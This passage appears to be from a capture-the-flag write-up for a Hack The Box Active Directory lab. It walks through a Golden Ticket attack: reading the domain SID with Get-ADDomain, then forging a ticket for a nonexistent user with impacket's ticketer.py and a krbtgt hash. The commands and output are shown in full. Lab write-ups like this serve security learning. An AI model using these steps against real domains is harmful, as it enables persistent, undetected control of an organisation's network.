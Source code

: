 ## Going further with Golden Ticket... (without `mimikatz`)

An additional thing that we can do to have fun is performing a **Golden Ticket** attack using the `KRBTGT` hash we retrieved.

1) First we need to grab the Domain SID (Security IDentifier):

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Get-ADDomain htb.local


AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=htb,DC=local
DeletedObjectsContainer            : CN=Deleted Objects,DC=htb,DC=local
DistinguishedName                  : DC=htb,DC=local
DNSRoot                            : htb.local
DomainControllersContainer         : OU=Domain Controllers,DC=htb,DC=local
DomainMode                         : Windows2016Domain
DomainSID                          : S-1-5-21-3072663084-364016917-1341370565
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=htb,DC=local
Forest                             : htb.local
InfrastructureMaster               : FOREST.htb.local
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=htb,DC=local}
LostAndFoundContainer              : CN=LostAndFound,DC=htb,DC=local
ManagedBy                          :
Name                               : htb
NetBIOSName                        : HTB
ObjectClass                        : domainDNS
ObjectGUID                         : dff0c71a-a949-4b26-8c7b-52e3e2cb6eab
ParentDomain                       :
PDCEmulator                        : FOREST.htb.local
PublicKeyRequiredPasswordRolling   : True
QuotasContainer                    : CN=NTDS Quotas,DC=htb,DC=local
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {FOREST.htb.local}
RIDMaster                          : FOREST.htb.local
SubordinateReferences              : {DC=ForestDnsZones,DC=htb,DC=local, DC=DomainDnsZones,DC=htb,DC=local, CN=Configuration,DC=htb,DC=local}
SystemsContainer                   : CN=System,DC=htb,DC=local
UsersContainer                     : CN=Users,DC=htb,DC=local
```

2) Now that we have the Domain SID (`S-1-5-21-3072663084-364016917-1341370565`), we can use `ticketer.py` from **impacket** to generate a TGT with the `krbtgt` password Hash for a user who does not exist:

```bash
# python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
$ ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local doesnotexist
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for htb.local/doesnotexist
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
```